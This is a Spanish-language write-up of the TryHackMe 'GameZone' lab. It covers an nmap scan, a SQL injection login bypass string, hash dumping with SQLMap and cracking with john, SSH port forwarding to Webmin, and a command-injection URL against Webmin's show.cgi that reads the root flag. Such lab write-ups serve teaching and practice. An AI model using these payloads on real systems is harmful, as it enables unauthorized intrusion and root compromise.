









TryHackMe
Medium
Linux
SQLi
SQLMap
Webmin
SSH Tunneling
GameZone
SQLi login bypass; hash dump con SQLMap crackeado con john; acceso Webmin via SSH port forwarding para RCE root.
cat4clysm
Herramientas utilizadas
nmap
sqlmap
john
ssh
netcat
Scanning
root@kali:~$
nmap -sC -sV -p 22,80 10.10.196.59 -oN targeted
SQLi - Login Bypass
La pagina de login es vulnerable a SQL injection:
Login: 'or 1=1 -- -
Password: ' or 1=1 -- -
SQLMap - Hash Dump
Interceptamos la peticion con Burp Suite y la pasamos a SQLMap:


root@kali:~$
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
# password: videogamer124SSH + Port Forwarding - Webmin
root@kali:~$
ssh agent47@10.10.196.59
# password: videogamer124root@kali:~$
ss -tulpn
root@kali:~$
ssh -L 10000:localhost:10000 agent47@10.10.196.59

RCE en Webmin via /file/show.cgi:
http://localhost:10000/file/show.cgi/bin/7|cat /root/root.txt|
Lecciones aprendidas
- SQL injection en formularios de login puede dar acceso sin credenciales validas.
- SQLMap automatiza la extraccion de datos de bases de datos vulnerables a SQLi.
- El port forwarding SSH permite acceder a servicios internos solo visibles localmente.